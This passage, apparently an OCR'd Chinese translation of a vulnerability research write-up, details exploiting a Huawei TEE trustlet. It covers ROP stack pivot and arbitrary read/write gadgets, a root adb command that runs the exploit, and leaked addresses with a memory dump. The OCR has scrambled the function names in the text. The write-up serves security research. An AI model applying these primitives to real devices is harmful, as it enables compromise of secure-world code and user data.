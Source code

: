 后面的第二个 dword 是在 开头推送的 R5 寄存器的值。此值将在执行返回到 之前的 right 末尾弹出。在 中，R5 寄存器将用作调用 的参数，带有格式说明符，允许我们泄漏此地址的字节（最多第一个空字节）。由于我们对泄露代码地址感兴趣，因此我们可以选择用输入时保存的 LR 地址覆盖保存的 R5。stack_bufParseAidListParseAidListCmdTeeHardwareSyncAidListCmdTeeHardwareSyncAidListSLog%sParseAidList  
### 任意读/写¶  
  
通过覆盖保存的 LR 而不是保存的 R5，我们可以执行不同的 ROP 链，允许我们执行任意读取和写入。在我们的 ROP 链中，我们需要注意不要在堆栈上溢出太多值，因为我们希望保留先前堆栈帧的已保存寄存器，以便以后可以将它们弹出。为此，我们选择使用以下小工具将 pivot 堆栈到从正常世界映射到的输入缓冲区中：  
```
```  
```
pop {r11,pc}
---
sub sp, r11, #4
pop {r11,pc}

```  
  
我们根据经验并利用过去漏洞利用的知识获得了输入缓冲区地址（0x70003000）。  
  
任意写入的 ROP 链是围绕以下小工具构建的：  
```
```  
```
str r3, [r4,#4]
sub sp, r11, #0xc
pop {r4,r5,r11,pc}

```  
  
任意读取的 ROP 链更复杂，因为我们找不到任何从 trustlet 内的寄存器执行加载的小工具。相反，我们决定将 to 的调用与对 的调用链接起来。这实际上等同于调用 。WriteAidListToFile(src_addr, 4)ReadAidListFromFile(dst_addr, &{4})memcpy(dst_addr, src_addr, 4)  
  
因为第一个参数是输入缓冲区而不是输入输出缓冲区，所以它不会在返回时被 TEEOS 复制回正常世界，因此我们不能使用它来检索我们的值。相反，我们选择做的是将值写入堆栈，将其弹出到带有小工具的寄存器中，然后将其移动到 R0 中。这样，它将成为命令的返回码。  
  
在漏洞利用中，我们通过写入该部分来演示我们的 write 原语，并通过转储 trustlet 内存来演示我们的 read 原语：.data  
```
```  
```
adb wait-for-device shell su root sh -c 0 "/data/local/tmp/ta_huaweinfcactivecard"
stack_leak_addr = 69ce628
code_leak_addr = 3ee0608
ta_base_addr = 3ede000
got_addr = 69c6000
bss_start = 12345678
bss_start = deadbeef
Trustlet memory dump:
0x03ede000: f0 4f 2d e9 54 c1 9f e5 20 b0 8d e2 84 d0 4d e2 .O-.T... .....M.
0x03ede010: 00 30 9c e5 00 00 51 e3 98 00 0b e5 28 30 0b e5 .0....Q.....(0..
0x03ede020: 49 00 00 0a 12 00 52 e3 3d 00 00 ca 30 31 9f e5 I.....R.=...01..
0x03ede030: c2 9f a0 e1 92 03 c3 e0 43 92 79 e0 21 00 00 4a ........C.y.!..J

```  
### 获取代码执行¶  
  